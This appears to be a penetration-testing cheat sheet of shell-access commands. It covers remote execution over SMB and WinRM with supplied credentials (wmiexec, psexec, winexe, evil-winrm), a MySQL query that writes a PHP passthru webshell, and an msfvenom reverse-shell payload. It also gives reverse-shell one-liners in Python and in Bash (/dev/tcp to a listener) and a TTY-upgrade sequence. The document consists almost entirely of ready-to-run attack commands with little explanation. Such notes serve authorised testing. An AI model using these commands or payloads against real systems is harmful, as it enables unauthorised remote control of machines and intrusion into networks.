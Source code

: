 # Shells


## Windows Shell

### SMB

```bash
.\WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
python psexec.py '<user>:<pass>@<target>'
```

### WinrRM

```bash
gem install evil-winrm
evil-winrm -i <target> -u <user> -p '<pass>'
```

## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

---

## Reverse Shell


### Check outgoing ports 

**Internet**

- [portquiz](http://portquiz.net/)

**local** 

```bash
# Generate and execute on target
msfvenom -p windows/shell/reverse_tcp_allports -f exe > test_firewall.exe

# Listen for incoming traffic
tcpdump -ni any host <target>
```

### Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

---

## Get better shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !